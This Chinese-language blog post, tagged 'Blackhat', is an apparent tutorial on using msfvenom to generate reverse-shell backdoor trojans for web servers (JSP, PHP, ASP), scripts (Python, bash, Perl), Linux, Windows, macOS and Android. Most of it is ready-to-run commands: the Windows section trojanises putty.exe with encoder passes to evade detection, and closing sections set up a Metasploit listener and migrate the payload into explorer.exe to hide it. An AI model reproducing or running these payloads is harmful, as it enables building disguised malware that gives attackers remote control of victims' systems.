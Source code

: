 ```yaml
---
title: 使用msfvenom生成多平台后门木马
name: metasploit-generate-backdoor
date: 2016-4-30
tags: [后门,木马,msfvenom]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 1. 介绍说明

**msfvenom** 是`metasploit`中一款用于生成木马的工具，支持多种平台和语言。需要结合`metasploit`的反向连接使用。

## 2. 木马生成

### 2.1 Web端反弹木马

[ **jsp木马** ]

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f war > shell.war
```

[ **php木马** ]

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f raw > shell.php
```

[ **asp木马** ]

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f asp > shell.asp
```

> Web端的反弹木马上传至目标服务器中，使用浏览器打开木马路径后触发运行。

### 2.2 Script反弹木马

[ **python木马** ]

```shell
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.84 LPORT=43221 -f raw > shell.py
```

[ **shell木马** ]

```shell
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.84 LPORT=43221 -f raw > shell.sh
```

[ **perl木马** ]

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.84 LPORT=43221 -f raw > shell.pl
```

> 所有脚本木马运行前需要加上运行权限，如`chmod u+x shell.py`，若需要后台运行，则需要加**&**号，如`./shell.sh &`

### 2.3 System反弹木马

[ **linux木马** ]
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f elf > shell.elf
```

[ **windows木马** ]
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f exe > shell.exe
msfvenom –p cmd/windows/reverse_powershell lhost=192.168.1.15 lport=43221  > file.bat
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -a x86 --platform windows -x putty.exe -k -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > puttyX.exe
```

[ ~~macosx木马~~ ] (不可用)
```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f macho > shell.macho
```

[ **android木马** ]
```shell
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.1.84 lport=43221 R > system.apk
```

## 3. 反向连接服务

```shell
use exploit/multi/handler
set payload [对应生成的payload]
set lhost 192.168.1.15
set lport 43221
exploit
```

## 附录A 额外的选项列表

**msfvenom** 支持的攻击载荷有很多，可以使用命令`msfvenom -l payloads`列出，若希望查看某个具体的 **payload** 参数，可以使用`msfvenom --payload windows/download_exec --payload-options` 查看。

## 附录B Prepend Migrate隐藏合并进程

在进入`meterpreter`时，会使用`migrate`合并进程存储空间，使用`msfvenom`生成木马时就可以使用 **Prepend Migrate** 进行预订合并操作。

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 prependmigrate=true prepenmigrateprocess=explorer.exe -f exe > shell.exe
```
